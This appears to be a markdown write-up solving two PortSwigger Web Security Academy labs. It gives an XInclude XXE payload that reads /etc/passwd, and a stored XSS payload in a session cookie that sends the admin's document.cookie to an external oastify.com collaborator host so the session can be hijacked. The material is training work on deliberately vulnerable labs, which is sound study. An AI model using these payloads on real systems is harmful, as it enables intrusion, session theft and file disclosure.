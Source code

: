 # Essential Skills
## Obfuscation attacks using encoding
[Link](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)

### LAB: Discovering vulnerabilities quickly with targeted scanning
Use the `Do active scan` on the request `POST /product/stock HTTP/2` found that it is vulnerable to XXE Injection using `XInclude`. URL encode this and use it as the value of `productId` in the `POST /product/stock HTTP/2` request:

    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>

### LAB: Scanning non-standard data structures
Found non-standard data structure in the session cookie:

    wiener:3a14AzXCGmCsJmikiRHIzZVUIUOnMQDIg7

Mark the `wiener` and `3a14AzXCGmCsJmikiRHIzZVUIUOnMQDIg7` in `Intruder` and use the `Scan selected insertion point` option. After a while notice a stored XSS vulnerability using this payload:

    '"><svg/onload=fetch`//iqcql7ictt5dhrhtrv79ogen2e88wykqae14oucj\.oastify.com`>:14AzXCGmCsJmikiRHIzZVUIUOnMQDIg7

Change it to steal the admin's cookie:

    '"><svg/onload=fetch`//6mtwihm7c4tj1u0dx9zovquir9x1lt9i.oastify.com/${encodeURIComponent(document.cookie)}`>:14AzXCGmCsJmikiRHIzZVUIUOnMQDIg7

In the `Collaborator` tab, notice the coming HTTP request, examine the Request to Collaborator to obtain the admin session cookie. Use this cookie to enter admin panel and delete Carlos.


